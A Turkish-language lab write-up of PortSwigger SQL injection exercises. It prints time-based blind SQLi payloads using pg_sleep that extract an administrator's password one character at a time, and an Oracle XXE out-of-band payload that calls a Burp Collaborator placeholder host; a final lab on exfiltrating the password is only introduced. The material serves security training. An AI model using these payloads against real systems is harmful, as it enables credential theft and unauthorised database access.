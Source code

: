 ```
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

Yukarıdaki sorguda pg_sleep’in çalışması için kullanıcı adının hem administrator olması hemde parolanın 1 basamaktan fazla olması gerekmektedir eğer iki şart da true olursa pg_sleep fonksiyonu çalışacaktır. Response delaylı geleceğinden çıkarım sağlanarak öncelikle kaç basamaklı bir parola olduğu daha sonrasında parolanın kendisi tespit edilecektir. Parola 20 basamaklıdır.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/PortSwigger/1-SQLi/14/2.png){: .align-center}

Aşağıdaki payload ile 20 basamaklı parola Cluster Bomb saldırısı ile tespit edilmektedir.

```
'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,§1§,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--
```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/PortSwigger/1-SQLi/14/3.png){: .align-center}

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/PortSwigger/1-SQLi/14/4.png){: .align-center}

## Lab-15 Blind SQL injection with out-of-band interaction

Bu laboratuvarda Blind SQLi bulunmaktadır. Uygulama analiz için bir tracking cookie kullanmaktadır ve gönderilen cookie bilgisinin değerini içeren bir SQL sorgusu gerçekleştirmektedir.

SQL sorgusu yanıtı dönmemektedir ve herhangi bir ayırt edici response içermemektedir. Fakat dış bir domain ile iletişim oluşabilmektedir.

```
'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//YOUR-COLLABORATOR-ID.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--

```

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/PortSwigger/1-SQLi/15/1.png){: .align-center}

Daha sonra collaborator’u kontrol ettiğimizde istekler görünmektedir.

![image-center]({{ site.url }}{{ site.baseurl }}/assets/images/PortSwigger/1-SQLi/15/2.png){: .align-center}

## Lab-16 Blind SQL injection with out-of-band data exfiltration

Bu laboratuvarda Blind SQLi bulunmaktadır. Uygulama analiz için bir tracking cookie kullanmaktadır ve gönderilen cookie bilgisinin değerini içeren bir SQL sorgusu gerçekleştirmektedir.

SQL sorgusu yanıtı dönmemektedir ve herhangi bir ayırt edici response içermemektedir. Fakat dış bir domain ile iletişim oluşabilmektedir.

Basit XXE tekniği ile SQLi birleştirerek dış domain’e administrator’ün parola bilgisi sızdırılmaktadır.
